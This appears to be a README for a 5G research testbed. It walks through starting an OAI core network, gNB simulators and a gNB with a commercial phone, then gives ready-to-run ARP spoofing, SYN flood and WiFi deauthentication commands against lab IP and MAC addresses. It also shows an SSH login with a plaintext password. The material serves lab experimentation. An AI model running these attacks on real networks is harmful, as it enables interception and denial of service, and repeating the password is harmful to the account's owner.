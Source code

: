 ## Common Steps for All the Attacks

### 1. Log into VM in the Testbed with OAI Installation
```bash
ssh kryptowire@10.80.103.50
Password: krypto@123
```

### 2. OAI 5G Core
- **Git Repo Used:** [OAI 5G Core GitLab Repo](https://gitlab.eurecom.fr/oai/cn5g/oai-cn5g-fed.git)
- **Docs Link for Instructions:** [OAI 5G Core Docs](https://gitlab.eurecom.fr/oai/cn5g/oai-cn5g-fed/-/tree/master/docs?ref_type=heads)

#### Commands:
```bash
cd /home/kryptowire/oai-core/oai-cn5g-fed/docker-compose
python3 ./core-network.py --type start-basic --scenario 1
```
- Wait for the core network docker containers to be up and running: Use `docker ps` command to check the status.

### 3. Launch gNBsims
#### Commands:
```bash
cd /home/kryptowire/oai-core/oai-cn5g-fed/docker-compose
docker-compose -f docker-compose-gnbsim.yaml up -d gnbsim
```

### 4. Launch OAI gNB with COTSUE
- **GitHub Repo Used:** [OAI gNB GitLab Repo](https://gitlab.eurecom.fr/oai/openairinterface5g.git)

#### Commands:
```bash
cd ~/openairinterface5g/cmake_targets/ran_build/build
sudo ./nr-softmodem -O ../../../targets/PROJECTS/GENERIC-NR-5GC/CONF/gnb.sa.band77.fr1.273PRB.2x2.usrpn300.conf --sa --usrp-tx-thread-config 1 -E --continuous-tx
```
- Once gNB connects to core network, connect COTSUE to the gNB.

### 5. Experimentation Setup
- The setup contains OAI core connected with 2 gNBsims and COTSUE.

## Attacks Integration

### IP/ARP Spoofing
#### Command:
```bash
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.18
```
- Run this command from gNBsim attacking COTSUE. When gNBsim and COTSUE connect to the core, they will be assigned IPs in the same subnet.

### SYN Flooding
#### Command:
```bash
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.70.156
```
- Run this command from the gNBsim container and flood with SYN packets to COTSUE and 2 gNBsims.

### Deauthentication
#### Command:
```bash
aireplay-ng -0 0 -a 10:DA:43:73:2A:3C -c 30:23:03:5E:2B:2B wlan0
```
- For this attack, tether COTSUE connection via router and connect 2 UEs to the WiFi. Then launch the attack from one UE to the other UE.
